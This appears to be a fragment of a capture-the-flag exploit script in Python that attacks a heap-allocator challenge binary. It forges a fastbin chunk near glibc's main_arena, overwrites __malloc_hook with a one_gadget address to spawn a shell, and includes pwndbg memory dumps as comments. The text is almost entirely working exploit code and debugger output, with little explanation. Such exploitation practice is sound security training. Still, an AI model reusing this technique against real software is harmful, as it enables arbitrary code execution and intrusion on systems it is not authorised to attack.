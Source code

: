 ```python
# dbg()
# pwndbg> x/4gx (long long)(&main_arena)-0x40+0xd
# 0x7f2bb9726aed <_IO_wide_data_0+301>: 0x2bb9725260000000  0x000000000000007f
# 0x7f2bb9726afd:   0x2bb93e7e20000000  0x2bb93e7a0000007f

payload = p64(main_arena - 0x40 + 0xd)
fill(2,len(payload),payload)
# dbg()
allocate(0x60) # i4
# now i4 we just freed was allocated to new i4
allocate(0x60) # i6
# when we continue to allcoate,we can get the fake chunk which point to 0x7f16a99d7b05

# fill(6,5,'A'*5)
# dbg()
# pwndbg> x/16g 0x7f146555eb20 -0x40
# 0x7f146555eae0 <_IO_wide_data_0+288>: 0x0000000000000000  0x0000000000000000
# 0x7f146555eaf0 <_IO_wide_data_0+304>: 0x00007f146555d260  0x4141410000000000
# 0x7f146555eb00 <__memalign_hook>: 0x00007f1465214141  0x00007f146521fa00
# 0x7f146555eb10 <__malloc_hook>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb20 <main_arena>:  0x0000000000000000  0x0000000000000000
# 0x7f146555eb30 <main_arena+16>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb40 <main_arena+32>:   0x0000000000000000  0x0000000000000000
# 0x7f146555eb50 <main_arena+48>:   0x146521fe20000000  0x0000000000000000

# now we can edit i6,and rewrite __malloc_hook to our one_gadget to get shell
payload = '\x00'*3 + p64(0)*2 + p64(libc_base+one_gadget)
fill(6,len(payload),payload)
# dbg()
# pwndbg> x/16g 0x7f3f2b9dcb00
# 0x7f3f2b9dcb00 <__memalign_hook>: 0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb10 <__malloc_hook>:   0x00007f3f2b65d216  0x0000000000000000 <--malloc_hook was point to one_gadget
# 0x7f3f2b9dcb20 <main_arena>:  0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb30 <main_arena+16>:   0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb40 <main_arena+32>:   0x0000000000000000  0x0000000000000000
# 0x7f3f2b9dcb50 <main_arena+48>:   0x3f2b69de20000000  0x0000000000000000
# 0x7f3f2b9dcb60 <main_arena+64>:   0x0000000000000000  0x0000000000000000
# dbg()
# we need to try each one_gadget, one of them may didn't workrd

allocate(0x100)
itr()
```
